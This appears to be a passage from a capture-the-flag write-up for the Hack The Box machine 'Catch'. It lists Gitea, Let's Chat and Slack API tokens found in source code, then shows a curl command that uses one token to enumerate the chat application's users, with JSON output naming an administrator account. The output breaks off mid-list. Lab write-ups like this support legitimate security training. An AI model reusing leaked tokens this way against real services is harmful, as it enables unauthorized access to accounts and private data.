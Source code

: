
```text
"gitea_token" : "b87bfb6345ae72ed5ecdcee05bcb34c83806fbd0"
"lets_chat_token" : "NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ=="
"slack_token" : "xoxp-23984754863-2348975623103"
```

We can use these token somewhere.


## Enumrating Let's-Chat 
Since **Let's Chat** mentioned in their **[Wiki  Lets Chat | API](https://github.com/sdelements/lets-chat/wiki/API)** that we can interact with application using API with an Authenticating token.


##### Users

```shell
──(kali㉿kali)-[~/Desktop/Catch]
└─$ curl http://catch.htb:5000/users -H "Authorization: Bearer NjFiODZhZWFkOTg0ZTI0NTEwMzZlYjE2OmQ1ODg0NjhmZjhiYWU0NDYzNzlhNTdmYTJiNGU2M2EyMzY4MjI0MzM2YjU5NDljNQ==" | jq
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   931  100   931    0     0   1055      0 --:--:-- --:--:-- --:--:--  1055
[
  {
    "id": "61b86aead984e2451036eb16",
    "firstName": "Administrator",
    "lastName": "NA",
    "username": "admin",
    "displayName": "Admin",
    "avatar": "e2b5310ec47bba317c5f1b5889e96f04",
    "openRooms": [
      "61b86b28d984e2451036eb17",
      "61b86b3fd984e2451036eb18",
      "61b8708efe190b466d476bfb"
    ]
  },
  {
    "id": "61b86dbdfe190b466d476bf0",
    "firstName": "John",
    "lastName": "Smith",
    "username": "john",
    "displayName": "John",
    "avatar": "f5504305b704452bba9c94e228f271c4",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
    "id": "61b86e40fe190b466d476bf2",
    "firstName": "Will",
    "lastName": "Robinson",
    "username": "will",
    "displayName": "Will",
    "avatar": "7c6143461e935a67981cc292e53c58fc",
    "openRooms": [
      "61b86b3fd984e2451036eb18",
      "61b86b28d984e2451036eb17"
    ]
  },
  {
    "id": "61b86f15fe190b466d476bf5",
    "firstName": "Lucas",
```